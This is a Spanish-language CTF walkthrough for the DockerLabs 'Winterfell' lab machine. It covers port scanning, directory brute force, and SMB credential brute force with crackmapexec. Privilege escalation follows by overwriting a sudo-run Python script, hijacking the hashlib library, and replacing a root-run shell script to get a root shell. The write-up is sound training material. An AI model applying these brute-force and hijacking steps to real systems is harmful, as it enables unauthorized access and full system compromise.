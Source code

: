 # Máquina Winterfell

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/Qaky0DoJ#AfyxhrLvz8n_Kxefe-61c5n81T9CqtGeU_Ybk5Xv0bA)

![imagen](https://github.com/user-attachments/assets/7c675fe8-f26f-4fcf-bed4-ec3efa1f1ada)

- **Nombre de la Máquina:** Winterfell
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - **SMB Brute Force**
- **Escalada de Privilegios:**
  - Uso de permisos sudo con Python y Library Hijacking.
  - Exposición de credenciales en archivos accesibles.
  - Uso de un script con permisos sudo para obtener una shell como root.

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/d42ed633-04c9-4bd1-97ef-8a5e3ffb2a7d)

Nos muestra que los puertos 22, 80, 139 y 445 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutándose en los puertos.

```bash
sudo nmap -p 22,80,139,445 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/3b46ac8d-48f8-48fb-b9c1-09bb75bb4eb1)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver que servicios corren en el http.

![imagen](https://github.com/user-attachments/assets/40bd02eb-28b7-4971-98c0-a29a360f079d)

Podemos observar tres nombres de usuarios posibles nada mas entrar en la web, así que los guardaremos en un archivo llamado names.txt

![imagen](https://github.com/user-attachments/assets/6ee9f3c1-5582-4431-a97b-42d49561e9ae)

```bash
nano names.txt
jon
Arya
Daenerys
```

Seguimos investigando haciendo fuerza bruta usando gobuster para tratar de encontrar directorios.

```bash
sudo gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/user-attachments/assets/2f62d610-bfa9-45f1-bd3a-adff678889e4)

Vemos que encontramos un directorio llamado `/dragon/` y dentro hay un archivo llamado `EpisodiosT1` el cuál contiene un texto que dice lo siguiente:

![imagen](https://github.com/user-attachments/assets/2af02080-b513-4d83-a16f-5257c89826f3)

```txt
Estos son todos los Episodios de la primera  temporada de Juego de tronos.
Tengo la barra espaciadora estropeada por lo que dejare los nombres sin espacios, perdonad las molestias

seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo
```

Parecen ser posibles contraseñas así que me las guardaré en un txt llamado passwords.txt

### Puerto 445 SMB
Enumerando el servicio smb vemos que existe un recurso compartido llamado `shared`.

![imagen](https://github.com/user-attachments/assets/2856af9e-07e0-412e-8a7b-716563199339)

Realizo un ataque de fuerza bruta con los nombres y contraseñas enumeradas por si cabe la posibilidad de ue sean las credenciales para acceder a los recursos compartidos.

```bash
crackmapexec smb 172.17.0.2 -u names.txt -p passwords.txt
```

Resultado:
  - jon
  - seacercaelinvierno

Accedemos con el comando smblient, y nos descargamos el único archivo que existe.

```bash
smbclient -U 'jon' //172.17.0.2/shared
get proteccion_del_reino
```

![imagen](https://github.com/user-attachments/assets/91698fef-98d1-4382-bead-de8837b31c67)

![imagen](https://github.com/user-attachments/assets/b436fffe-b77a-41a8-95e4-67f515b61bfb)

El texto nos da una contraseña cifrada en base64, por lo que vamos a descifrarla:

```bash
echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d
```

![imagen](https://github.com/user-attachments/assets/032a7f08-216a-44cc-bd3c-b6336fe1f1c6)

Ya tenemos unas credenciales para acceder vía ssh, así que probaremos.

```bash
ssh jon@172.17.0.2
hijodelanister
```

![imagen](https://github.com/user-attachments/assets/880c5493-234c-43f9-a8cb-c1f73e2045e4)

## Escalada de privilegios a `aria`
Una vez dentro somos `jon`, ejecutamos el comando `sudo -l` y vemos que podemos ejecutar con python3 el script /home/jon/.mensaje.py siendo usuario `aria`.

![imagen](https://github.com/user-attachments/assets/e482a219-3b43-4375-b7b8-c7fe3bf00ddf)

### Primera forma de escalar a `aria`.
Podemos hacer la escalada de varias maneras y una de ellas sería borrar el script y volver a crearlo pero con un comando para otorgarnos una bash.

```bash
rm .mensaje.py
nano .mensaje.py
```

```python
import os

os.system("/bin/bash")
```

Otorgamos permisos de ejecución con el comando `chmod +x .mensaje.py` y a continuación ejecutamos el script con el usuario `aria` y listo, abremos escalado al usuario `aria`.

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```

![imagen](https://github.com/user-attachments/assets/9cfe112c-ceef-41d8-ad80-f4e02cd5ef71)

### Segunda forma de escalar a `aria`.
La otra forma sería hacer un [Library Hijacking](https://deephacking.tech/path-hijacking-y-library-hijacking/) usando la librería hashlib de python ya que es la primera que se importa en el script.

![imagen](https://github.com/user-attachments/assets/798b969c-ff8b-496d-8bdc-c94ddd6f2322)

```html
Si nos fijamos, el primer sitio donde python comprueba de forma por defecto la existencia de la librería es en ' ', esto significa la ruta actual.
Por lo que simplemente vamos a crear un archivo que se llame hashlib.py en la ruta actual.
```

![imagen](https://github.com/user-attachments/assets/df634ba1-a786-49a5-acf6-0ed3d9d62aef)

```bash
nano hashlib.py
```

```python
import os

os.system("/bin/bash")
```

Y tan solo haciendo eso ya tendremos también la escalada al usuario `aria`.

![imagen](https://github.com/user-attachments/assets/bc669d3b-b54a-4374-8b5c-d337ff76ccba)

## Escalada de privilegios a `daenerys`
Haciendo `sudo -l` con `aria` vemos que tenemos permisos para ejecutar como el usuario `daenerys` los siguientes comandos:

```bash
(daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
```

![imagen](https://github.com/user-attachments/assets/4ee95d19-775a-4870-8c75-4dd0b2d9f6b5)

Podemos ejecutar el comando `ls -la` para ver ue hay en el directorio de `daenerys`, vemos que existe un archivo llamado `mensajeParaJon` y otro llamado `.secret`.

```bash
sudo -u daenerys /usr/bin/ls -la daenerys/
```

![imagen](https://github.com/user-attachments/assets/76465435-b57b-4436-a1db-d3e1815630ab)

Pues bastante fácil, el usuario `daenerys` expone su contraseña en el archivo `mensajeParaJon`.

```bash
sudo -u daenerys /usr/bin/cat daenerys/mensajeParaJon
```

![imagen](https://github.com/user-attachments/assets/d559596e-b6c4-41ca-ae28-a28a4c9d1289)

  - User: daenerys
  - Password: drakaris

![imagen](https://github.com/user-attachments/assets/d7569435-3722-4730-9494-fd87d6619d4e)

## Escalada de privilegios a Root
Ejecutando otra vez `sudo -l` pero con `daenerys`, tenemos permisos para ejecutar como root un script llamado `.shell.sh`.

```bash
(ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

![imagen](https://github.com/user-attachments/assets/b59230f0-4962-4d63-b94b-c1ef1e56b2d3)

Bastante fácil también, vemos que tenemos permisos de lectura y escritura así que vamos a modificarlo, aparentemente es un script el cuál podemos mandarnos una reverse shell.

![imagen](https://github.com/user-attachments/assets/96b1f55f-0498-4987-accf-8ca7a946242f)

Lo modificaremos y pondremos lo siguiente:

```.shell.sh
#!/bin/bash

bash -p
```

Ahora cuando ejecutemos el script, como lo estaremos ejecutando como `root` lo que hará será otorgarnos una bash con privilegios.

```bash
sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

![imagen](https://github.com/user-attachments/assets/d7324a55-69ee-42ef-ae07-af06bd332b14)

Como podemos ver ya nos habríamos convertido en usuario root. Máquina muy chula en la que se puede aprender varios conceptos como la ferxa bruta y los distintos vectores de escaladas.
